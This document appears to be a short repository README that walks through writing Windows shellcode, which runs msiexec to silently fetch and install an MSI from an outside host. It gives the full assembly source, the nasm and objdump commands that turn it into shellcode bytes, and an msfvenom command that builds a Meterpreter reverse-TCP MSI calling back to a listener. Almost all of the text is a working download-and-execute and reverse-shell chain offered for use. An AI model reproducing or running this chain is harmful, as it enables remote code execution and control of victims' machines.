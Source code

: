 

https://web.archive.org/web/20120503030935/http://projectshellcode.com/?q=node/12

1. I followed above first two tutorials (1. Intro tools & setup 2. My first shellcode.) to output shellcode, alternatively follow shellcode developer's write-
up....I'm sure it works!

Shellcode Developer: Kartik Durg

https://iamroot.blog/2019/01/28/windows-shellcode-download-and-execute-payload-using-msiexec/

2. The following asm does this: #

3. msiexec /i http://172.16.0.14/jasonm.msi /qn

4. Need to Determine LoadLibrary, ExitProcess & System via Arwin

```
------------assembly starts---------------

BITS 32
global _start
_start:
			
mov ebx, 0x777fde35      		;Address of function LoadLibraryA (win7)
call ebx
mov ebp, eax             		;msvcrt.dll is saved in ebp
xor eax, eax
PUSH eax
PUSH 0x6e712f20
PUSH 0x69736d2e
PUSH 0x6d6e6f73
PUSH 0x616a2f34
PUSH 0x312e302e
PUSH 0x36312e32
PUSH 0x37312f2f
PUSH 0x3a707474
PUSH 0x6820692f
PUSH 0x20636578
PUSH 0x6569736d
MOV EDI,ESP
PUSH EDI
MOV EAX, 0x768db177			;calling the system()
CALL EAX
xor eax, eax
push eax
mov eax, 0x7780be5a     		; ExitProcess
call eax

--------------assembly end----------------------------------
```
5. Save as msi.asm

6. Using Cygwin

7.xvz@xvz-PC ~
$ nasm -f win32 msi.asm -o msi.o

8.Get rid of null bytes

9.xvz@xvz-PC ~
$ for i in $(objdump -D msi.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo

10.Add to script

11.Create MSI
msfvenom -p windows/meterpreter/reverse_tcp LPORT=4444 LHOST=172.16.0.14 -f msi -o jasonm.msi

Start web-server port 80
